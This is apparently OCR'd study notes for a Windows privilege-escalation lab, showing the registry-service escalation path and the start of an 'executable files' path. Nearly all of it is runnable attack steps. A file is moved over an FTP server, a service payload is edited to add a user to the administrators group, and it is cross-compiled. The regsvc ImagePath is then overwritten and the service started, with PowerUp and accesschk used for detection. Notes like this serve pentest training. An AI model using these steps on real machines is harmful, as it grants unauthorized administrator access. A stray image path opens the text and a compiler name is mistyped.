 ### Escalation
In kali open a FTP server:
```bash
python -m pyftpdlib -p 21 --write
```

In Windows:
```bash
# send the file. 
ftp <kali ip> > log with anonymous > put windows_service.c
```

In kali with the file in hand:
```bash
# we are gonna edit
# replace the command in the payload session > system("here")

cmd.exe /k net localgroup administrator user /add
```

> use **sudo apt install gcc-mingw-w64** if needed

```powershell
x86_x64-w64-mingw32-gcc windows_service.c -o x.exe
```

Send the x.exe to the C:\Temp of the Windows Machine:
```powershell
reg add HKLM\System\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
net localgroup administrators
# the 'user' got added
```



# Escalation Path: Executable Files


## Detection

### With PowerUp
```powershell
# we will run <. .\PowerUp.ps1>
Invoke-AllChecks
```

### Manual Detection
```bash
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

Notice that the **everyone** user group has **FILE_ALL_ACCESS** permission on the filepermservice.exe file.
